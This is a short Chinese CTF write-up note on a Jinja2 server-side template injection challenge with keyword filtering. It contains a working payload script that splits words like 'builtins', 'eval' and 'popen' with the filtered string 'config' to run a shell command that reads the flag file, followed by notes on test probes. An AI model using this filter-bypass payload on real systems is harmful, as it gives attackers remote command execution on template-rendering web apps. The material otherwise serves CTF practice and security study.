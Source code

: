 tags:: [[CTFWEB/SSTI/Jinja]]

- # 思路
	- 打带过滤的jinja2
	- 题目会替换config等关键词
	- payload
		- ```python
		  import html
		  
		  r = base_post(url, data = {
		      "name": "{%print(lipsum.__globals__.__buconfigiltins__.evaconfigl('__impconfigort__(\"oconfigs\").popconfigen(\"cat /flag_1s_Hera\").reconfigad()'))%}"
		  })
		  bs = BeautifulSoup(r.text, "html.parser")
		  text = bs.select("h1")[0].text
		  text = html.unescape(text)
		  print(text)
		  ```
- # 施工中
	- 貌似是SSTI
	- 测试
		- `{{`或`}}`
			- 错误`Parse error: syntax error, unexpected T_STRING, expecting '{' in \var\WWW\html\test.php on line 13`
		- 一个Jinja的payload
			- flask的`Internal Server Error`
		-